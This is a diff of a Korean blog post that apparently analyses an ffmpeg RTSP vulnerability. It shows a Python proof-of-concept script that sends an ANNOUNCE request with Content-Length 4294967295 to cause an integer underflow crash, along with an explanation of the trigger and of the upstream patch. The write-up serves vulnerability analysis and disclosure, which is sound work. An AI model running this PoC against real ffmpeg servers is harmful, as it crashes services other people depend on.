

Before and after one commit to v2lixx/v2lixx.github.io, a Markdown page: posts/post1.md, 2 parts joined by grey strips. Shown at 93% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
post1: verbatim PoC + consistent number notation

````diff
--- a/posts/post1.md
+++ b/posts/post1.md
@@ -148,27 +148,43 @@ aarch64 Linux는 LP64라서 `int`는 32-bit, `long`은 64-bit.
 
 ```python
 #!/usr/bin/env python3
-import argparse, socket
 
-p = argparse.ArgumentParser()
-p.add_argument("host", nargs="?", default="127.0.0.1")
-p.add_argument("port", nargs="?", type=int, default=8554)
-p.add_argument("--value", default="4294967295")
-p.add_argument("--path", default="poc")
-p.add_argument("--body", default="v=0\r\n")
-args = p.parse_args()
+import argparse
+import socket
 
-req = (
-    f"ANNOUNCE rtsp://{args.host}:{args.port}/{args.path} RTSP/1.0\r\n"
-    f"CSeq: 1\r\n"
-    f"Content-Type: application/sdp\r\n"
-    f"Content-Length: {args.value}\r\n"
-    f"\r\n"
-).encode("latin1") + args.body.encode("latin1")
 
-s = socket.socket(); s.connect((args.host, args.port)); s.sendall(req)
-print(s.recv(4096).decode("latin1", "ignore"))
-s.close()
+def main():
+    parser = argparse.ArgumentParser()
+    parser.add_argument("host", nargs="?", default="127.0.0.1")
+    parser.add_argument("port", nargs="?", type=int, default=8554)
+    parser.add_argument("--value", default="4294967295")
+    parser.add_argument("--path", default="poc")
+    parser.add_argument("--body", default="v=0\r\n")
+    args = parser.parse_args()
+
+    request = (
+        f"ANNOUNCE rtsp://{args.host}:{args.port}/{args.path} RTSP/1.0\r\n"
+        f"CSeq: 1\r\n"
+        f"Content-Type: application/sdp\r\n"
+        f"Content-Length: {args.value}\r\n"
+        f"\r\n"
+    ).encode("latin1") + args.body.encode("latin1")
+
+    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+    sock.connect((args.host, args.port))
+    sock.sendall(request)
+
+    try:
+        data = sock.recv(4096)
+        print(data.decode("latin1", "ignore"))
+    except OSError as exc:
+        print(exc)
+    finally:
+        sock.close()
+
+
+if __name__ == "__main__":
+    main()
 ```
 
 구성을 짚어보면:
@@ -178,7 +194,7 @@ s.close()
 - 요청 조립은 별도 RTSP 클라이언트 라이브러리 없이 socket으로 raw RTSP 평문을 직접 만든다. 메서드 `ANNOUNCE`에 필수 헤더 세 개(`CSeq`, `Content-Type: application/sdp`, `Content-Length`)만 채우면 ffmpeg의 listen-mode ANNOUNCE 분기에 정상 진입한다.
 - 진짜 트리거는 `Content-Length: {args.value}` 한 줄. 나머지 헤더와 본문은 그 분기를 타고 라인 208까지 도달하기 위한 장식일 뿐이다.
 
-마지막 `s.recv(4096)`로 응답을 받으러 가지만, affected 빌드라면 그 사이 ffmpeg는 라인 208의 underflow를 맞고 ASan abort로 죽어 있다 — `recv()`는 EOF를 받고 빈 문자열이 출력될 가능성이 높다.
+마지막 `sock.recv(4096)`로 응답을 받으러 가지만, affected 빌드라면 그 사이 ffmpeg는 라인 208의 underflow를 맞고 ASan abort로 죽어 있다 — `recv()`는 EOF를 받고 빈 문자열이 출력될 가능성이 높다.
 
 서버 쪽:
 
@@ -350,7 +366,7 @@ ASan 없는 별도 debug 빌드에서 Memcheck로도 돌렸다.
 ```
 
 `if (request.content_length)` → `if (request.content_length > 0)` 로 바뀌면서, 이전엔 `0`만 거르고 음수는 그대로 통과시켰던 게 이제 양수가 아닌 모든 값을 같이 떨어뜨리게 되었다.
-우리가 보낸 `Content-Length: 4294967295` → `int -1` 케이스도 여기서 바로 fail 처리되어 `av_malloc`을 호출조차 하지 않는다.
+우리가 보낸 `Content-Length: 2³² − 1 (= 4294967295)` → `int -1` 케이스도 여기서 바로 fail 처리되어 `av_malloc`을 호출조차 하지 않는다.
 
 else 분기(원래는 "Content-Length header value exceeds sdp allocated buffer (4KB)"라는 약간 부정확한 에러를 뱉던 자리)의 메시지와 반환 코드도 같이 정리됐다.
 `AVERROR(EIO)` → `AVERROR_INVALIDDATA`로 의미를 맞추고, 로그에는 잘못된 실제 값(`%d`)을 그대로 출력하도록 바꿨다.
````
